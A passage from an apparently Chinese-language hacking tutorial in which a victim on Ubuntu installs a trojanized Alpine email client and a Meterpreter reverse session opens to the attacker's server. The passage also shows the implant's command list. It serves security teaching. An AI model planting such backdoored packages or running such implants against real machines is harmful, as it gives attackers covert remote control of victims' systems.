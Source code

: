 ![image](img/ch10fig06.jpg)

*图 10-6：Alpine 电子邮件客户端的安装界面*

输入你的 Ubuntu 密码。安装过程完成后，运行以下命令启动 Alpine 终端邮件客户端：

```
victim@ubuntu:~/Download/$ alpine
```

如果 Alpine 安装正确，你将看到一个终端界面。现在让我们检查一下我们的植入程序是否也已安装。

#### ***控制植入程序***

重新打开之前启动的攻击者服务器的终端。如果植入程序已正确安装，你应该会看到以下内容，表示植入程序已经连接到服务器：

```
[*] Meterpreter session 1 opened (192.168.1.107:8443 -> 192.168.1.109:43476)
meterpreter >
```

太好了！运行以下命令查看你可以使用植入程序做的所有事情：

```
meterpreter> help

          ...
Stdapi: System Commands

=======================

    Command       Description

    -------       -----------

    execute       Execute a command

    getenv        Get one or more environment variable values

    getpid        Get the current process identifier

    getuid        Get the user that the server is running as

    kill          Terminate a process

    localtime     Displays the target system local date and time
```